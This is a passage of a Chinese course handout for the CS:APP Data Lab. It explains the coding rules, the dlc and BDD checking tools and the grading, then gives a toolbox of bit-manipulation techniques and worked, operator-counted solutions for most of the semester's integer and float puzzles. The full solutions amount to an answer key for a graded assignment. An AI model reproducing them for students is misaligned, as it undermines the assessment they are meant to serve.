最后一条值得多说一句。C 标准规定，移位量大于等于类型宽度（int 为 32）或者为负数时，行为是未定义的。在 x86-64 上，sal、sar 指令只取移位量的低 5 位，所以 1 << 32 实际算出 1 而不是 0（在本讲义的验证环境上实测如此）；而编译器在常量折叠时又可能给出别的结果。因此，凡是移位量可能达到 32 的写法，例如 (1 << (32 - n)) - 1 在 n = 0 时，都要换成别的形式。第 3.4 节的 logicalShift 和第 4.9 节的 rotateLeft 都会遇到这个问题。
⚠ 有符号溢出：Lab 的假设与 C 标准不一致
Data Lab 假设补码运算在溢出时回绕，例如 TMax + 1 = TMin，很多经典解法都依赖这一点（第 4.1 节的 isTmax、第 3.10 节的 addOK）。但在 C 标准中，有符号整数溢出是未定义行为，开了优化的编译器可能据此改写代码。handout 的 Makefile 用 -O1 -fwrapv 编译 btest，-fwrapv 让 gcc 把有符号溢出定义为回绕；整数题的正式评分则由 BDD 检查器按位模拟，同样按回绕计算。所以在 Lab 中可以放心依赖回绕；在 Lab 之外的真实程序里，要判断溢出应先转成 unsigned 再算。
1.2 浮点题的编码规则#
浮点题的规则宽松得多：可以用 if、while 等控制结构，可以用 int 和 unsigned 两种类型，常数不受 8 位的限制，&&、||、比较运算、减法、乘法都可以用。仍然禁止的是宏、自定义函数、函数调用、强制类型转换、数组、结构体、联合，以及任何浮点类型、浮点运算和浮点常数。浮点数以 unsigned 的形式传入、传出，函数要直接在 32 位位模式上完成运算。
浮点题同样有操作符上限，但计数方式与整数题有所不同：比较运算（<、== 等）、&&、||、减法和一元负号也都计入。例如第 3.15 节 float_negpwr2 的解答中，x < -127 这一个条件就算 2 个操作符（< 和负号）。if 本身不计数，所以在浮点题里，分支往往比“全部用位运算拼起来”更省操作符。
1.3 四个检查工具#
handout 附带四个工具，各自负责不同的检查。btest 把 bits.c 和 tests.c 中的参考函数一起编译，用大量输入比较两者的结果，可以用 -f 只测一个函数，用 -1、-2 指定参数值。dlc 是一个修改过的 C 编译器前端，检查编码规则，加 -e 时报告每个函数用了多少个操作符。BDD 检查器（bddcheck/check.pl）用二元决策图对整数题做形式化的穷举验证，覆盖全部 232 或 264 种输入，比 btest 的抽样可靠得多。driver.pl 依次调用 dlc、BDD 检查器和 btest，算出最终分数，评分服务器用的就是它。
用 dlc 实测，下面这些计数细节容易弄错。
表 5 dlc 的计数与检查（本讲义环境实测）
| 写法 | dlc 的结果 |
|---|---|
int a = x;、a = b; | 赋值不计数（0 个） |
a += 1; | 复合赋值算 1 个操作符（+） |
~~x | 2 个操作符：每个一元运算都单独计数 |
0xFF、255 | 合法常数，不计数 |
x + 256 | 报错：Illegal constant (256)，只允许 0x0–0xff |
-x、x == 1、x && 1 | 整数题中报错：Illegal operator |
x ? 1 : 0 | 报错：Illegal ternary if |
(unsigned) x | 报错：Illegal data type 和 Illegal cast |
| 声明出现在语句之后 | 语法错误：dlc 要求一个块内的全部声明写在任何语句之前 |
最后一条是最常见的“莫名其妙的编译错误”。gcc 允许在语句之后声明变量，dlc 不允许。另外，bits.c 中不要 #include <stdio.h>：它会让 dlc 产生难以理解的报错。调试时可以直接调用 printf，gcc 只会给出警告；交之前要把 printf 删掉，因为 BDD 检查器不能处理任何函数调用。
常见问题：BDD 检查器对 float_greater 报错，是我写错了吗？
不一定。用 BDD 检查器检查浮点题时，即使解答完全正确，也可能得到“Mismatch … False negative”，并且列出的两个结果相同（都是 0）。实测本讲义的 float_greater 和一份满分解答都是这样：两者在全部特殊值和 4 亿组随机输入上都与硬件比较的结果一致，BDD 检查器却报告不匹配。原因是参考函数 test_float_greater 用了浮点比较，BDD 检查器无法对浮点运算做符号模拟。正因为如此，实验说明和 driver.pl 都规定：浮点题以 btest 的结果为准，整数题以 BDD 检查器为准。
1.4 评分方式#
每个 Lab 满分 100 分，Data Lab 先按 80 分计算，再线性折算到 100 分。80 分中，48 分是正确性：16 道题的难度分（Rating）合计正好 48，一道题只有在遵守全部编码规则并通过正确性检查时才得到它的难度分，否则得 0。另外 32 分是性能：每道正确的题，只要操作符个数不超过上限，就得 2 分。上限定得很宽松，只用来排除“暴力”写法。折算时向上取整，即最终得分为 ⌈k/80 × 100⌉。
表 6 列出了 16 道题的规则，以及第三部分所给解答的操作符个数（dlc 实测）。
表 6 本学期的 16 道题（上限以 bits.c 为准；“解答”为本讲义第三部分的写法）
| 函数 | 功能 | 允许的运算符 | 难度 | 上限 | 解答 | 小节 |
|---|---|---|---|---|---|---|
| bitXor(x,y) | 只用 ~ 和 & 计算 x^y | ~ & | 1 | 14 | 7 | 3.1 |
| leastBitPos(x) | 最低位的 1 对应的掩码 | 8 个 | 2 | 6 | 3 | 3.2 |
| getByte(x,n) | 取出第 n 个字节 | 8 个 | 2 | 6 | 3 | 3.3 |
| logicalShift(x,n) | 逻辑右移 | 8 个 | 3 | 16 | 6 | 3.4 |
| grayToBinary(x) | 31 位格雷码转二进制 | ^ >> | 3 | 20 | 10 | 3.5 |
| bitCount(x) | 1 的个数 | 8 个 | 4 | 40 | 28 | 3.6 |
| isEqual(x,y) | x == y | 8 个 | 2 | 5 | 2 | 3.7 |
| divpwr2(x,n) | x / 2n，向零舍入 | 8 个 | 2 | 15 | 7 | 3.8 |
| sign(x) | 正、零、负分别返回 1、0、–1 | 8 个 | 2 | 10 | 4 | 3.9 |
| addOK(x,y) | x + y 是否不溢出 | 8 个 | 3 | 20 | 6 | 3.10 |
| absVal(x) | 绝对值（–TMax ≤ x ≤ TMax） | 8 个 | 4 | 10 | 3 | 3.11 |
| satSub(x,y) | 饱和减法 | 8 个 | 4 | 30 | 14 | 3.12 |
| float_twice(uf) | 2 × f | 浮点规则 | 4 | 30 | 10 | 3.13 |
| float_f2i(uf) | (int) f | 浮点规则 | 4 | 30 | 14 | 3.14 |
| float_negpwr2(x) | 2.0–x | 浮点规则 | 4 | 20 | 8 | 3.15 |
| float_greater(x,y) | 浮点数 x > y | 浮点规则 | 4 | 45 | 14 | 3.16 |
⚠ 实验说明与 bits.c 的两处不一致
第一，实验说明表 1 中 bitXor 的上限写作 8，bits.c 和 decl.c 中都是 14。bits.c 开头的说明规定“实验说明与本文件不一致时以本文件为准”，dlc 也按 14 检查。第二，bits.c 中 float_greater 的注释含有一句“When argument is NaN, return argument”，这是从 float_twice 的注释复制过来的，对一个返回真假的函数没有意义。实际行为以 tests.c 的参考函数 u2f(x) > u2f(y) 为准：只要有一个参数是 NaN，结果就是 0；+0 与 –0 相等，所以两者互相比较的结果也是 0。
第二部分 方法工具箱#
Data Lab 的题目看起来五花八门，用到的手法却只有十来种。本部分把它们归纳出来，每种手法都说明它为什么成立、典型用在哪几题。第三、四部分的每道题，几乎都是这些手法的组合。
2.1 补码恒等式#
整数题不能用减号，也不能写大常数，所以要先掌握补码的几个恒等式。最基本的一条是 -x == ~x + 1：x 与 ~x 逐位互补，相加得到全 1，即 –1，所以 ~x = –x – 1。由它可以推出一串常用写法：x – y 写成 x + ~y + 1；x – 1 写成 x + ~0（~0 就是 –1）；TMin 写成 1 << 31；TMax 写成 ~(1 << 31)。
另一条是符号掩码：s = x >> 31。因为右移是算术右移，x 非负时 s 为全 0（值为 0），x 为负时 s 为全 1（值为 –1）。符号掩码是整个 Lab 用得最多的工具，它把“x 是否为负”变成了一个可以参与位运算的全 0 或全 1 的字。例如 x ^ s 在 x 非负时等于 x，在 x 为负时等于 ~x = –x – 1；再减去 s（也就是加 1）就得到 –x。所以 |x| 可以写成 (x ^ s) + (~s + 1)，更省的写法是 (x + s) ^ s：x 为负时先加 –1 再取反，~(x – 1) = –x，结果相同（第 3.11 节）。以 x = –5 为例：s = –1，x + s = –6，–6 ^ –1 = ~(–6) = 5。
表 7 常用的补码恒等式与常数（每行右列给出不用减号和大常数的写法）
| 想要的值 | 合法写法 | 操作符个数 |
|---|---|---|
| –x | ~x + 1 | 2 |
| x – y | x + ~y + 1 | 3 |
| x – 1 | x + ~0 | 2 |
| –1（全 1） | ~0 | 1 |
| TMin = 0x80000000 | 1 << 31 | 1 |
| TMax = 0x7FFFFFFF | ~(1 << 31) | 2 |
| 符号掩码（0 或 –1） | x >> 31 | 1 |
| 符号位（0 或 1） | (x >> 31) & 1 或 !!(x >> 31) | 2 |
2.2 构造常数与掩码#
常数只能在 0～255 之间，需要 32 位的常数时就要自己拼。最常见的是重复的字节模式，例如 0x55555555：先写 m = 0x55 | (0x55 << 8) 得到 0x5555，再 m = m | (m << 16)，共 4 个操作符。用 ^ 代替 | 也可以，因为两部分没有重叠的 1。第 3.6 节的 bitCount 要用到 0x55555555、0x33333333、0x0F0F0F0F 三个这样的常数，光构造它们就要 12 个操作符。
另一类是与参数有关的掩码。低 n 位全 1 的掩码是 (1 << n) + ~0，也就是 2n – 1，n 在 0～31 之间都成立；高 n 位全 1 的掩码可以先做出 TMin，再算术右移 n – 1 位，或者写成 ~0 << (32 – n)（但 n = 0 时移位量为 32，不合法）。选取第 n 个字节的掩码是 0xFF << (n << 3)，其中 n << 3 就是 8n。
2.3 布尔化与条件选择#
! 是唯一能把任意整数“压缩”成 0 或 1 的运算符：!x 在 x 为 0 时得 1，否则得 0；!!x 反过来，把非零值变成 1。有了 0/1，再取负就得到全 0 或全 1 的掩码：~b + 1 在 b = 1 时是全 1，b = 0 时是全 0。也可以把 b 左移到最高位再算术右移回来，即 (b << 31) >> 31，同样是 2 个操作符。
有了全 0 或全 1 的掩码 m，就能实现“如果……就取 y，否则取 z”：(m & y) | (~m & z)。另一种写法 z ^ (m & (y ^ z)) 少用一个操作符：m 全 0 时结果是 z；m 全 1 时结果是 z ^ y ^ z = y。第 4.5 节的 conditional 就是这个手法的原题，第 3.12 节的 satSub 用它在“正常结果”和“饱和值”之间选择。
2.4 相等与比较#
判断相等最简单：!(x ^ y)，2 个操作符。判断大小就要小心了。直觉的做法是看 y – x 的符号，但减法可能溢出：x = TMin、y = TMax 时，y – x 溢出成 –1，符号判断就反了。标准的做法是按符号分两种情况。x、y 异号时，差可能溢出，但这时大小关系由符号直接决定：负数小于非负数。x、y 同号时，差不可能溢出，看差的符号即可。第 4.6 节的 isLessOrEqual 就是这样写的：(sx & !sy) | (同号 & 差非负)。
2.5 溢出的判定#
两个数相加，只有在同号时才可能溢出，溢出时结果的符号与两个加数都不同。所以“x + y 溢出”等价于“s = x + y 的符号与 x、y 都不同”，用符号位表示就是 (x ^ s) & (y ^ s) 的最高位为 1。x ^ s 的最高位为 1 表示 x 与 s 异号，两者都异号才是溢出。第 3.10 节的 addOK 只需在这个式子外面再加 >> 31 和 !。
减法 d = x – y 只有在 x、y 异号时才可能溢出，溢出时 d 的符号与 x 不同。所以“x – y 溢出”等价于 (x ^ y) & (x ^ d) 的最高位为 1。注意，这里不能把 x – y 看成 x + (–y) 再套加法的公式：y = TMin 时 –y 仍是 TMin，加法公式会给出错误的结论。第 3.12 节的 satSub 正是用减法的公式。
2.6 移位#
C 的 >> 作用在 int 上是算术右移，高位补符号位。要得到逻辑右移，就把算术右移补进来的那些 1 清掉：补进来的位数正好是 n，所以用一个“高 n 位为 0、其余为 1”的掩码去与（第 3.4 节）。
右移还是一种除法，但它向下（向 –∞）舍入，而 C 的整数除法向零舍入。两者只在 x 为负且不能整除时不同：–33 >> 4 = –3，而 –33 / 16 = –2。补救的办法是先加上偏置 2n – 1 再右移，相当于把向下舍入变成向上舍入（第 3.8 节）。
移位量的范围是另一个常见的坑。按照第 1.1 节，移位量必须在 0～31 之间。需要移 32 – n 位而 n 可能为 0 时，可以拆成两步：先移 1 位，再移 31 – n 位（第 4.9 节的 rotateLeft）。
2.7 分治：一次处理很多位#
有些题要对 32 位逐位做同一件事（数 1 的个数、求奇偶、求前缀异或、找最高位）。逐位做要 32 步，操作符远远超限。分治的思路是让所有位并行地参与运算，每一步把“已处理的段”加倍，5 步就覆盖 32 位。这种技巧也叫 SWAR（SIMD within a register），即把一个寄存器当成多个小整数并行计算。
具体有三种形式。第一种是相邻段相加，用于计数：先把每 2 位当成一个小计数器，再把相邻的两个计数器相加放进 4 位，然后是 8 位、16 位，最后的和就是 1 的个数（第 3.6 节 bitCount）。第二种是移位后异或，用于奇偶和前缀异或：x ^= x >> 1; x ^= x >> 2; …; x ^= x >> 16; 每做一步，每一位上累积的异或范围就加倍（第 3.5 节 grayToBinary、第 4.12 节 bitParity）。第三种是二分查找，用于找最高位的 1：先看高 16 位是否非零，是就把 x 右移 16 位并记下 16，再在剩下的 16 位里看高 8 位……（第 4.7 节 howManyBits）。
2.8 最低位的 1 与 2 的幂#
x & -x，即 x & (~x + 1)，只保留 x 最低位的那个 1。原因是：–x = ~x + 1，取反后最低位的 1 变成 0、它右边的 0 都变成 1；加 1 时进位一路传到这个位置停下，于是 –x 与 x 在这一位上都是 1，在更高位上互补，在更低位上都是 0。第 3.2 节的 leastBitPos 就是这个式子本身。
与它相关的 x & (x – 1) 则清除最低位的 1。x 是 2 的幂，当且仅当 x > 0 且 x & (x – 1) == 0（第 4.11 节 isPower2）。
2.9 浮点数：拆字段、分类、按情况处理#
浮点题都从拆字段开始：符号 s = uf >> 31，阶码 exp = (uf >> 23) & 0xFF，尾数 frac = uf & 0x7FFFFF。然后按阶码分成四类：exp = 0xFF 且 frac ≠ 0 是 NaN；exp = 0xFF 且 frac = 0 是无穷；exp = 0 是非规格化数（包括 ±0），值为 0.frac × 2–126；其余是规格化数，值为 1.frac × 2exp–127。每道浮点题本质上都是“对这四类分别处理”。
表 8 单精度浮点数的四类编码（偏置 127）
| 类别 | 阶码 exp | 值 | 例子（位模式） |
|---|---|---|---|
| ±0 与非规格化 | 0 | (–1)s × 0.frac × 2–126 | 0x00000001 = 2–149 |
| 规格化 | 1～254 | (–1)s × 1.frac × 2exp–127 | 0x3F800000 = 1.0 |
| 无穷 | 255，frac = 0 | ±∞ | 0x7F800000 = +∞ |
| NaN | 255，frac ≠ 0 | 非数 | 0x7FC00000 |
处理浮点题还有三个常用观察。第一，乘除 2 只改阶码：规格化数乘 2 就是 exp 加 1（第 3.13 节），但非规格化数要把尾数左移一位；左移时尾数的最高位会自然地进入阶码字段，较大的非规格化数乘 2 后恰好变成正确的规格化数，不需要特殊处理。第二，舍入：把多出来的低位丢掉时，要按“向偶数舍入”的规则处理（第 4.15 节 float_i2f、第 4.16 节 float_half）。第三，比较大小：非负浮点数的位模式按无符号整数比较，顺序与数值顺序相同；负数正好反过来。所以只要把位模式变换成一个按无符号比较就有序的“键”，比较就变成了整数比较（第 3.16 节 float_greater）。
★ 方法工具箱一览
补码：–x = ~x + 1，x – y = x + ~y + 1，符号掩码 x >> 31，|x| = (x + s) ^ s。
构造：0x55555555 = 0x55 拼两次；低 n 位掩码 (1 << n) + ~0；字节掩码 0xFF << (n << 3)。
选择：b ∈ {0, 1} 时 m = ~b + 1；结果 = z ^ (m & (y ^ z))。
比较与溢出：异号直接看符号，同号看差；加法溢出看 (x ^ s) & (y ^ s)，减法溢出看 (x ^ y) & (x ^ d)。
分治：相邻段相加（计数）、移位异或（奇偶、前缀异或）、二分（最高位）。
最低位：x & –x 保留最低位的 1，x & (x – 1) 清除最低位的 1。
浮点：拆字段 → 四类分别处理；乘除 2 改阶码；向偶数舍入；变换成有序的键再比较。
第三部分 本学期 16 题逐题详解#
本部分逐题讲解。每道题先给出题面（照录 bits.c 的注释，只译成中文），再讲思路、给出一种操作符较少的解答，最后讨论边界情况和常见错误。解答中的操作符个数都是 dlc 实测的；整数题都通过了 BDD 检查器的穷举验证，浮点题都在全部 232 个输入上与硬件结果比对过。同一道题往往有多种正确写法，讲义给出的不一定最短，重要的是能说清楚每一步为什么对。
3.1 bitXor：只用 ~ 和 & 实现异或#
bitXor(x, y)：返回 x ^ y，只允许 ~ 和 &，上限 14，难度 1
只有“与”和“非”，就要用德摩根定律把“或”表示出来：x | y = ~(~x & ~y)。异或是“至少有一个为 1，但不是两个都为 1”，即 x ^ y = (x | y) & ~(x & y)。把“或”代进去，就得到只用 ~ 和 & 的式子。
int bitXor(int x, int y) {
return ~(x & y) & ~(~x & ~y);
}这个式子用了 7 个操作符：x & y、外面的 ~、~x、~y、~x & ~y、外面的 ~，以及中间的 &。另一种常见写法是按“恰好一个为 1”来写：x ^ y = (x & ~y) | (~x & y)，再把“或”换掉，得到 ~(~(x & ~y) & ~(~x & y))，用 8 个操作符。两种写法都远低于上限。
3.2 leastBitPos：最低位的 1#
leastBitPos(x)：返回一个掩码，只在 x 最低位的 1 所在的位置为 1；x 为 0 时返回 0。例如 leastBitPos(96) = 0x20。上限 6，难度 2
这正是第 2.8 节的 x & -x。–x = ~x + 1：~x 把最低位的 1 变成 0、把它右边的 0 都变成 1，加 1 后进位恰好停在这个位置，所以 –x 与 x 只在这一位上同为 1。
int leastBitPos(int x) {
return x & (~x + 1);
}3 个操作符。以 96 = 0b1100000 为例，–96 的低 7 位是 0b0100000，相与只剩 0x20。x = 0 时 –x = 0，结果为 0；x = TMin 时 –x 仍是 TMin，结果是 TMin 本身，也正确。
3.3 getByte：取出第 n 个字节#
getByte(x, n)：取出 x 的第 n 个字节（0 号是最低字节），0 ≤ n ≤ 3。例如 getByte(0x12345678, 1) = 0x56。上限 6，难度 2
把要的字节移到最低位，再用 0xFF 截取。第 n 个字节在第 8n 位开始，8n 用 n << 3 计算。
int getByte(int x, int n) {
return (x >> (n << 3)) & 0xFF;
}3 个操作符。& 0xFF 不能省：右移是算术右移，当 n = 3 而最高字节 ≥ 0x80 时，高位会补 1。例如 getByte(0x80000000, 3)，只右移得到 0xFFFFFF80，与 0xFF 后才是正确的 0x80。
3.4 logicalShift：逻辑右移#
logicalShift(x, n)：把 x 逻辑右移 n 位，0 ≤ n ≤ 31。例如 logicalShift(0x87654321, 4) = 0x08765432。上限 16，难度 3
先做算术右移，再把高位补进来的 n 个符号位清零（第 2.6 节）。需要的掩码是“高 n 位为 0、其余为 1”。构造它的办法是：TMin（只有最高位为 1）算术右移 n 位，得到高 n + 1 位为 1；再左移 1 位，变成高 n 位为 1；最后取反。
int logicalShift(int x, int n) {
return (x >> n) & ~(((1 << 31) >> n) << 1);
}6 个操作符。n = 0 时，TMin 右移 0 位再左移 1 位得到 0，取反得到全 1，结果就是 x 本身，正确。
⚠ 一种常见的错误写法：(x >> n) & ((1 << (32 – n)) – 1)
这个写法除了用到不允许的减号之外，还有一个更隐蔽的问题：n = 0 时移位量是 32。按照第 1.1 节，这是未定义行为，在 x86-64 上 1 << 32 实际得到 1（实测），掩码变成 0，结果错成 0。即使把减号换成合法的写法，n = 0 这个边界也过不了 BDD 检查。凡是移位量形如 32 – n 的写法，都要单独检查 n = 0。
3.5 grayToBinary：格雷码转二进制#
grayToBinary(x)：把 31 位格雷码转换成二进制，0 ≤ x ≤ TMax。二进制数 b 与格雷码 g 满足 b[i] = g[i] ^ g[i+1] ^ … ^ g[最高位]。例如 grayToBinary(6) = 4。只允许 ^ 和 >>，上限 20，难度 3
格雷码的特点是相邻两个数只有一位不同，二进制 b 转格雷码是 g = b ^ (b >> 1)。反过来，b 的每一位是 g 中这一位及其以上所有位的异或，即“从高位起的前缀异或”。逐位计算要 31 次，但可以用第 2.7 节的“移位后异或”并行完成。先做 x ^= x >> 1，每一位变成自己和上面一位的异或；再做 x ^= x >> 2，每一位变成自己和上面三位的异或；依次移 4、8、16 位，每一步覆盖的范围加倍，5 步后每一位都包含了它上面所有的位。
int grayToBinary(int x) {
x = x ^ (x >> 1);
x = x ^ (x >> 2);
x = x ^ (x >> 4);
x = x ^ (x >> 8);
x = x ^ (x >> 16);
return x;
}10 个操作符。以 6 = 0b110 为例：x ^ (x >> 1) = 110 ^ 011 = 101，再 ^ (x >> 2) = 101 ^ 001 = 100，之后的步骤不再改变，结果是 4。验证：b = 100 时 g = 100 ^ 010 = 110 = 6，正确。
题目限定 x ≥ 0，符号位为 0，算术右移补进来的都是 0，所以算术右移在这里和逻辑右移等价。如果允许负数，右移会补进 1，结果就不是格雷码的定义了。
3.6 bitCount：数 1 的个数#
bitCount(x)：返回 x 中 1 的个数。例如 bitCount(5) = 2，bitCount(7) = 3。上限 40，难度 4
这是第 2.7 节“相邻段相加”的典型例子。把 32 位看成 32 个 1 位的计数器，第一步把相邻两个 1 位计数器相加，放进一个 2 位的计数器：(x & m1) + ((x >> 1) & m1)，其中 m1 = 0x55555555 选出每对中的低位。2 位最大能存 3，而两个 1 位相加最大为 2，不会溢出到相邻的计数器。第二步用 m2 = 0x33333333 把相邻的两个 2 位计数器相加，得到 8 个 4 位计数器，每个最大为 4。第三步加相邻的 4 位计数器得到 4 个 8 位计数器，每个最大为 8。这一步可以先加后与：每个 4 位计数器最大为 4，两个相加最大为 8，仍然放得进 4 位，不会进位到旁边，所以 (x + (x >> 4)) & m4 只用一次与运算。之后每个字节里的计数最大为 8，把四个字节加起来最大为 32，用 6 位就够，所以后面两步直接相加，不再做中间的掩码，最后用 & 0x3F 只保留低 6 位。
int bitCount(int x) {
int m1 = 0x55 | (0x55 << 8);
int m2 = 0x33 | (0x33 << 8);
int m4 = 0x0F | (0x0F << 8);
m1 = m1 | (m1 << 16);
m2 = m2 | (m2 << 16);
m4 = m4 | (m4 << 16);
x = (x & m1) + ((x >> 1) & m1);
x = (x & m2) + ((x >> 2) & m2);
x = (x + (x >> 4)) & m4;
x = x + (x >> 8);
x = x + (x >> 16);
return x & 0x3F;
}一共 28 个操作符，其中构造三个常数用了 12 个。实测 bitCount(0x12345678) = 13。第一步中的 (x >> 1) & m1 必须先移位再与：算术右移会在最高位补 1，但这个 1 随即被 m1（最高位是 0）清掉，不影响结果。
常见问题：最后两步不加掩码，高位的“垃圾”会不会影响结果？
会出现垃圾，但不影响结果。x = x + (x >> 8) 之后，最低字节是字节 0 与字节 1 的计数之和，其他字节里也存着各种部分和；x = x + (x >> 16) 之后，最低字节是四个字节计数之和，最大为 32。高位的部分和不会进位到最低 6 位，因为最低字节的值最大是 32，不会超过 255。最后的 & 0x3F 把高位全部丢掉，只留下真正的总数。这种“只保证低位正确，高位不管”的思路，在位运算里很常见。
3.7 isEqual：相等#
isEqual(x, y)：x == y 时返回 1，否则返回 0。上限 5，难度 2
x 与 y 相等，当且仅当它们逐位相同，即 x ^ y == 0。
int isEqual(int x, int y) {
return !(x ^ y);
}2 个操作符。注意不能写成 !(x + ~y + 1)，即判断 x – y 是否为 0：在补码下它其实也正确（x – y 回绕为 0 当且仅当 x == y），但要用 4 个操作符，没有必要。
3.8 divpwr2：除以 2 的幂，向零舍入#
divpwr2(x, n)：计算 x / 2^{n}，向零舍入，0 ≤ n ≤ 30。例如 divpwr2(15, 1) = 7，divpwr2(–33, 4) = –2。上限 15，难度 2
x >> n 向下舍入。x ≥ 0 时，向下舍入就是向零舍入，可以直接用；x < 0 且不能整除时，向下舍入比向零舍入小 1，例如 –33 >> 4 = –3，而 –33 / 16 = –2。教材第 2.3.7 节给出的补救办法是：x 为负时先加上偏置 2n – 1 再右移，这样 ⌊(x + 2n – 1) / 2n⌋ = ⌈x / 2n⌉，对负数来说就是向零舍入。偏置只在 x 为负时才加，所以用符号掩码把它“选”出来。
int divpwr2(int x, int n) {
int bias = (x >> 31) & ((1 << n) + ~0);
return (x + bias) >> n;
}7 个操作符。以 –33、n = 4 为例：偏置是 15，–33 + 15 = –18，–18 >> 4 = –2，正确；能整除时，例如 –32，加偏置得 –17，右移仍得 –2，不会多减。x 为负时加一个不超过 230 – 1 的正数，不会溢出；n = 0 时偏置为 0，结果就是 x。
3.9 sign：符号函数#
sign(x)：x 为正返回 1，为 0 返回 0，为负返回 –1。上限 10，难度 2
符号掩码 x >> 31 已经给出了负数的答案 –1，非负时为 0。还差的是正数时的 1，而 !!x 在 x 非零时为 1、为零时为 0。把两者“或”起来：x > 0 时得 0 | 1 = 1；x = 0 时得 0 | 0 = 0；x < 0 时得 –1 | 1 = –1（–1 是全 1，或上什么都不变）。
int sign(int x) {
return (x >> 31) | !!x;
}4 个操作符。另一种思路是用 ((~x + 1) >> 31) & 1 表示“–x 为负”，即 x 为正。这种写法在 x = TMin 时 –x 仍为 TMin，会误判，但它被 x >> 31 的 –1“或”掉了，所以结果仍然正确，只是多用了两个操作符。
3.10 addOK：加法是否溢出#
addOK(x, y)：x + y 不溢出时返回 1，否则返回 0。例如 addOK(0x80000000, 0x80000000) = 0，addOK(0x80000000, 0x70000000) = 1。上限 20，难度 3
按第 2.5 节的结论，溢出当且仅当 s = x + y 的符号与 x、y 都不同，也就是 (x ^ s) & (y ^ s) 的最高位为 1。右移 31 位得到 0 或 –1，再用 ! 变成“不溢出为 1”。
int addOK(int x, int y) {
int s = x + y;
return !(((x ^ s) & (y ^ s)) >> 31);
}6 个操作符。也可以先求 x、y、s 三个符号位，再写“x、y 同号且与 s 异号”，思路相同，但要多用几个操作符。以题面的两个例子核对：TMin + TMin 回绕为 0，0 与两个加数都异号，溢出，返回 0；TMin + 0x70000000 = 0xF0000000 为负，与 TMin 同号，不溢出，返回 1。
3.11 absVal：绝对值#
absVal(x)：返回 x 的绝对值，可以假设 –TMax ≤ x ≤ TMax。例如 absVal(–1) = 1。上限 10，难度 4
这是第 2.1 节的 (x + s) ^ s，s = x >> 31。x ≥ 0 时 s = 0，结果是 x；x < 0 时 s = –1，先算 x – 1，再取反，~(x – 1) = –(x – 1) – 1 = –x。
int absVal(int x) {
int m = x >> 31;
return (x + m) ^ m;
}3 个操作符。变量 m 只计算一次右移；如果把 x >> 31 写两遍，就要 4 个操作符。题目排除了 x = TMin，因为 |TMin| = 231 无法用 int 表示；把 TMin 代入这个式子，得到的仍是 TMin。
3.12 satSub：饱和减法#
satSub(x, y)：计算 x – y，正溢出时返回 TMax，负溢出时返回 TMin。例如 satSub(0x80000000, 1) = 0x80000000，satSub(0x7FFFFFFF, 0x80000000) = 0x7FFFFFFF。上限 30，难度 4
这道题把前面几种手法串了起来，分三步。第一步，算出可能溢出的差 d = x + ~y + 1。第二步，判断是否溢出：按第 2.5 节，减法溢出当且仅当 (x ^ y) & (x ^ d) 的最高位为 1，右移 31 位就得到溢出掩码 of（溢出为全 1，否则为全 0）。第三步，溢出时返回哪个值？减法溢出时，x 与 y 异号，结果的方向由 x 决定：x 非负（被减数为正、减数为负）只可能正溢出，应返回 TMax；x 为负只可能负溢出，应返回 TMin。所以饱和值是 (x >> 31) ^ TMax：x 非负时为 TMax，x 为负时为 ~TMax = TMin。最后用第 2.3 节的选择手法，在 d 和饱和值之间选一个。
int satSub(int x, int y) {
int d = x + ~y + 1;
int of = ((x ^ y) & (x ^ d)) >> 31;
int sat = (x >> 31) ^ ~(1 << 31);
return d ^ (of & (d ^ sat));
}14 个操作符：求 d 用 3 个，求 of 用 4 个，求 sat 用 4 个，选择用 3 个。
⚠ 恰好等于 TMin 不是溢出
satSub(–1, TMax) = –1 – (231 – 1) = –231，正好是 TMin，可以表示，不是溢出。这时 d = 0x80000000，x 与 d 同号，溢出条件不成立，直接返回 d，结果是 TMin（实测）。如果用“结果的符号与预期不同”之类的直觉来判断，很容易在这里出错。另一个容易出错的地方是 y = TMin：–y 仍是 TMin，所以不能把 x – y 看成 x + (–y) 再套用加法的溢出公式。
3.13 float_twice：浮点数乘 2#
float_twice(uf)：返回 2 × f 的位模式；参数是 NaN 时返回参数本身。上限 30，难度 4
按第 2.9 节的四类分别处理。NaN 与无穷（阶码全 1）：NaN 按题意原样返回，∞ 乘 2 仍是 ∞，也是原样返回。非规格化数和 ±0（阶码为 0）：值是 0.frac × 2–126，乘 2 就是尾数左移一位，阶码不变。把整个低 31 位左移一位即可，尾数的最高位会自然地进入阶码的最低位；例如最大的非规格化数 0x007FFFFF 乘 2 得 0x00FFFFFE，它是一个阶码为 1 的规格化数，数值正好是原来的 2 倍。规格化数：阶码加 1，也就是位模式加上 0x00800000。如果加 1 后阶码变成全 1，说明溢出，要返回无穷，此时必须把尾数清零，否则会得到一个 NaN。
unsigned float_twice(unsigned uf) {
unsigned exp = uf & 0x7F800000;
if (exp == 0x7F800000) return uf;
if (exp == 0) return (uf & 0x80000000) | (uf << 1);
uf = uf + 0x00800000;
if ((uf & 0x7F800000) == 0x7F800000) uf = uf & 0xFF800000;
return uf;
}10 个操作符（比较也计数，见第 1.2 节）。非规格化数一行中，uf << 1 会把符号位移出，所以要用 uf & 0x80000000 把它补回来。实测：最大的规格化数 0x7F7FFFFF 乘 2 得 0x7F800000（+∞）；–2–149（0x80000001）乘 2 得 0x80000002。
3.14 float_f2i：浮点数转整数#
float_f2i(uf)：返回 (int) f 的位模式；超出范围的数（包括 NaN 和无穷）返回 0x80000000。上限 30，难度 4
C 的浮点转整数向零舍入，也就是直接丢掉小数部分。先求出真实指数 e = exp – 127，再分情况。e < 0 时 |f| < 1，结果为 0；这一类包括全部非规格化数（exp = 0 时 e = –127）。e > 30 时 |f| ≥ 231，超出 int 的范围，返回 0x80000000；NaN 和无穷的 e = 128，也落在这一类。其余情况下，把隐含的 1 补到尾数前面，得到 24 位的整数 1.frac × 223，再按 e 与 23 的大小左移或右移：e > 23 时左移 e – 23 位，e ≤ 23 时右移 23 – e 位。右移丢掉的正是小数部分，相当于对绝对值向零舍入。最后按符号取负。
int float_f2i(unsigned uf) {
int e = ((uf >> 23) & 0xFF) - 127;
int frac = (uf & 0x007FFFFF) | 0x00800000;
int v;
if (e < 0) return 0;
if (e > 30) return 0x80000000u;
if (e > 23) v = frac << (e - 23);
else v = frac >> (23 - e);
if (uf >> 31) v = -v;
return v;
}14 个操作符。e ≤ 30 时左移最多 7 位，24 位的整数变成最多 31 位，不会溢出。实测：–1.5（0xBFC00000）得 –1；小于 231 的最大浮点数 0x4EFFFFFF 得 2147483520；231（0x4F000000）超出范围，得 0x80000000。
常见问题：–2^{31} 能表示成 int，为什么也落进了“超出范围”？
